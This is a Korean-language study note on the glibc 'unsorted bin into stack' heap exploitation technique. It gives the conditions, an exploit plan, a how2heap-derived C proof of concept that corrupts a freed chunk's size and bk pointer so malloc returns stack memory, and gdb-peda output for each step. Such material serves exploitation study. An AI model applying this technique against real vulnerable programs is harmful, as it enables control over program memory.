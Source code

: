 # **Unsorted bin into stack**

## **Conditions**

* tcache 옵션이 해제되어 있어야 함
    * tcache는 malloc과 free 호출 횟수를 줄여 속도를 높이기 위해 고안된 캐싱작업
* 공격자에 의해 Heap 영역 할당 및 해제
* 공격자가 stack 영역에 fake chunk 구조 저장할 수 있어야 함

## **Exploit Plan**

1. 2개의 Heap 영역 할당
1. 1번째 Heap 영역 free 
    * unsorted bin에 저장
1. stack에 fake chunk를 생성
1. victim의 size를 0x20으로 victim->bk를 fake_chunk로 변조
1. fake_chunk(stack) 영역 할당

## **Proof of Concept**

```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

int main() {
  intptr_t stack_buffer[4] = {0};

  fprintf(stderr, "This technique only works with disabled tcache-option for glibc, see build_glibc.sh for build instructions.\n");

  fprintf(stderr, "Allocating the victim chunk\n");
  intptr_t* victim = malloc(0x100);

  fprintf(stderr, "Allocating another chunk to avoid consolidating the top chunk with the small one during the free()\n");
  intptr_t* p1 = malloc(0x100);

  fprintf(stderr, "Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);
  free(victim);

  fprintf(stderr, "Create a fake chunk on the stack");
  fprintf(stderr, "Set size for next allocation and the bk pointer to any writable address");
  stack_buffer[1] = 0x100 + 0x10;
  stack_buffer[3] = (intptr_t)stack_buffer;

  //------------VULNERABILITY-----------
  fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->size and victim->bk pointer\n");
  fprintf(stderr, "Size should be different from the next request size to return fake_chunk and need to pass the check 2*SIZE_SZ (> 16 on x64) && < av->system_mem\n");
  victim[-1] = 32;
  victim[1] = (intptr_t)stack_buffer; // victim->bk is pointing to stack
  //------------------------------------

  fprintf(stderr, "Now next malloc will return the region of our fake chunk: %p\n", &stack_buffer[2]);
  fprintf(stderr, "malloc(0x100): %p\n", malloc(0x100));
}
```

* 2개의 Heap 영역 할당

```
This technique only works with disabled tcache-option for glibc, see build_glibc.sh for build instructions.
Allocating the victim chunk
Allocating another chunk to avoid consolidating the top chunk with the small one during the free()
```

* 1번째 Heap 영역 해제

```
Freeing the chunk 0x602010, it will be inserted in the unsorted bin
```

* unsortedbin에 free chunk가 저장됨

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602220 (size : 0x20de0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x602000 (size : 0x110)
```

* stack 영역에 fake chunk 생성

```
Create a fake chunk on the stack
Set size for next allocation and the bk pointer to any writable address
```

* fake chunk(stack)

```
gdb-peda$ x/24gx $rbp-0x30
0x7fffffffe4a0:	0x0000000000000000	0x0000000000000110
0x7fffffffe4b0:	0x0000000000000000	0x00007fffffffe4a0
```

* victim의 size에 0x20, victim의 bk에 stack_buffer 저장

```
Now emulating a vulnerability that can overwrite the victim->size and victim->bk pointer
Size should be different from the next request size to return fake_chunk and need to pass the check 2*SIZE_SZ (> 16 on x64) && < av->system_mem
```

```
gdb-peda$ parseheap
addr                prev                size                 status              fd                bk                
0x602000            0x0                 0x20                 Freed     0x7ffff7dd1b78    0x7fffffffe4a0 <- fake chunk
```

```
Now next malloc will return the region of our fake chunk: 0x7fffffffe4b0
malloc(0x100): 0x7fffffffe4b0
```

* fake chunk 영역이 할당됨

```
gdb-peda$ x/24gx 0x7fffffffe4b0-0x10
0x7fffffffe4a0:	0x0000000000000000	0x0000000000000110
0x7fffffffe4b0:	0x00007ffff7dd1b78	0x00007fffffffe4a0
```


**References**  
<https://github.com/shellphish/how2heap/blob/master/glibc_2.26/unsorted_bin_into_stack.c>
